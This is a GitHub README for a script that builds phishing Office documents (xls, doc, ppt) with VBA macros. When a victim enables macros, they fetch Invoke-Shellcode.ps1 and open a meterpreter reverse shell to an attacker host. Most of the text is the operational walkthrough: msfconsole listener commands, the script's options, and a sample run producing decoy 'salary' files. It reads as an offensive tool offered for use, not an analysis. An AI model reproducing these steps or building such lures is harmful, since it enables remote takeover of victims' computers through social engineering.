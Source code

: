 # Social-Engineering-Toys
Social Engineering Toys  
  
The script generates office documents (xls, doc and ppt) that includes VBA code that download and run the Invoke-Shellcode.ps1 (creates a meterpreter reverse shell back to server) when the victim enables Macro in the document.  
  
You will need to run the windows/meterpreter/reverse_https payload on your the attacker host.  
```
$ ./msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```
  
Below is the help screen of the script.  
```
$  python injectShell.py -h
usage: injectShell.py [-h] [-t T] [-o O] [-ip IP] [-port PORT]

optional arguments:
  -h, --help  show this help message and exit
  -t T        [xls|doc|ppt]
  -o O        [output filename (without extension)]
  -ip IP      [meterpreter listener ip address]
  -port PORT  [meterpreter listener port]

```

Below is the script in action.  

```
$  python injectShell.py -t all -o salary -ip 192.168.1.6 -port 1111 
- Generated: salary.xls
- Generated: salary.doc
- Generated: salary.ppt
```

